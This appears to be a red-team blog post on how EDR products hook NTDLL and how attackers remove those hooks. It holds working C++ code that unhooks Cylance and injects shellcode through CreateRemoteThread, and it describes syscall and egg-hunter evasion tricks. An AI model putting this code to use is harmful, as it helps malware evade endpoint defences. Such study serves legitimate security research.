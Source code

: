 # How Does AV Know?
Have you ever wondered how AV knows what that the application you're trying to run is malicious when it doesn't have a known signature?
NTDLL is the answer.

![NTDLL](/_posts/images/proc-loading.png)

# Before we begin
It's the first post on the new website, and we finally can include Markdown code blocks! No more screenshots of code! 
Blogger has served its purpose well, but it's finally time to move on to more adaptable hosting options. 
With that out of the way, the first post on the new site is going to be talking about a very common EDR evasion techniques and how to spot it.
This is something that has been discussed a lot before and probably won't be new to many, but even in 2022 it's still overlooked by EDR vendors, so it's worth going over.

## What is NTDLL?
In the simplest form, it exports the Windows Native API. 
Since it would be incredibly insecure to allow user mode applications direct access to manipulate the kernel, Windows instead allows you to interact with it through the Native API which is then mapped to Syscalls.
These Syscalls then are mapped via the system service descriptor table (SSDT) to the kernel functions memory address.
Things like WriteProcessMemory or CreateRemoteThread all go through here and have their own NT API equivalent - NtWriteVirtualMemory and NtCreateThreadEx respectively.
Then, once they have found their API equivalent call, the memory location that the loaded copy of NTDLL has is referenced.
And yes! You can completely avoid having to use these exported functions by just using the Syscalls instead, i.e. Syswhispering.
This comes with its own challenges though when manually implemented as these Syscall numbers reference different memory addresses in the system service descriptor table with each update.
So if you want to avoid NTDLL and use Syscalls, use Syswhisper - it cuts out the headaches and figures out the correct memory address for you.

## How does AV hook NTDLL?
As indicated above, NTDLL is used for a bunch of internal actions so, for the EDR, setting interrupt points to examine what kind of API requests are being made is critical.
Your typical EDR will modify the loaded version to allow it to send off suspicious function calls, such as below with CreateRemoteThread.
![EDR Jump Point](https://www.mdsec.co.uk/wp-content/uploads/2019/03/9797A6D5-B1D8-4E1C-924D-797035C0A3D9-1024x123.png "https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/")

In this screenshot provided by MDSec, Cylance has implemented a jump point for this function call so that it can inspect what exactly is being performed before passing it back to the original process.
EDR will typically do this for every function that can be abused. But each EDR is built differently so while Cylance might have this jmp here, perhaps Crowdstrike does not. Just something to keep in mind.


## Unhooking for fun and profit
We know what NTDLL is and how it's used and we also know how EDR puts jump points into it in order to examine suspicious calls. 
The next step after this is how can we defeat this process? 

```cpp
void removeCylanceHook(const char* dll, const char* apiName, char code) {
    DWORD old, newOld;
    void* procAddress = GetProcAddress(LoadLibraryA(dll), apiName);
    printf("[*] Updating memory protection of %s!%s\n", dll, apiName);
    VirtualProtect(procAddress, 10, PAGE_EXECUTE_READWRITE, &old);
    printf("[*] Unhooking Cylance\n");
    memcpy(procAddress, "\x4c\x8b\xd1\xb8", 4);
    *((char*)procAddress + 4) = code;
    VirtualProtect(procAddress, 10, old, &newOld);
} 
```
The above snippet is taken from MDSec [here](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/).
The key part to highlight is you can see there is a new value being copied to a memory location.
Here they are overwriting this process address with the original bytes pointing to the kernel functions memory address.
Every memory address exported from the Native API in fact will start with these bytes. 
After implementing this, when the application continues execution, it will no longer have a jump instruction to Cylance's analysis.

```cpp
printf("[*] Opened target process %d\n", processID);
printf("[*] Allocating memory in target process with VirtualAllocEx\n");
void *alloc = VirtualAllocEx(proc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == (void*)0) {
    printf("[!] Error: Could not allocate memory in target process\n");
    return 1;
}
printf("[*] Allocated %d bytes at memory address %p\n", sizeof(buf), alloc);
printf("[*] Attempting to write into victim process using WriteProcessMemory\n");
if (WriteProcessMemory(proc, alloc, buf, sizeof(buf), NULL) == 0) {
    printf("[!] Error: Could not write to target process memory\n");
    return 1;
}
printf("[*] WriteProcessMemory successful\n");

// Remove the NTDLL.DLL hook added by userland DLL
removeCylanceHook("ntdll.dll", "ZwCreateThreadEx", 0xBB);
printf("[*] Attempting to spawn shellcode using CreateRemoteThread\n");
HANDLE createRemote = CreateRemoteThread(proc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
printf("[*] Success :D\n");
```
When this is run, before getting to the CreateRemoteThread function, the application calls the aforementioned removeCylanceHook function with the API name for ZwCreateThreadEx.
The Zw prefix here is important as this ensures that the kernel mode variant for the function is overwritten to point away from the injected EDR jump, whereas specifying Nt would not have done.
So now when our application hits the CreateRemoteThread call, it asks the loaded copy of NTDLL to pass on the request to the SSDT that now has the hook for Cylance removed and functions normally.

## Pros & Cons
So why go through all this work when Syswhisper makes it far simpler?
Well, as [Captmeelo found](https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html), EDR could be looking for the ```syscall``` instruction in the binary. 
A simple bypass though in this case is to replace ```syscall``` in the asm file of Syswhisper with ```int 2EH``` which is a legacy instruction for referencing kernel mode. 
*However* this **also** has issues. ```int 2EH``` is trivial to hunt for so now we're entering the territory of adding an [egg-hunter](https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/) to the code in order to find and replace items in memory at run time.
We'd replace ```syscall``` with a random string in the Syswhispers asm file and then at run time implement the egg-hunter to change our previously random string to ```syscall```.
This definitely provides a high level of evasion, but you have to weigh the cost in time versus the advantage gained.

***References***
> https://www.codeproject.com/Articles/1191465/The-Quest-for-the-SSDTs
> 
> https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/
> 
> https://www.geoffchappell.com/studies/windows/win32/ntdll/api/index.htm
> 
> https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/
> 
> https://www.ired.team/offensive-security/defense-evasion/bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis
> 
> https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html
> 
> https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/
> 
> https://rioasmara.com/2021/06/20/25-bytes-of-every-function-in-ntdll/
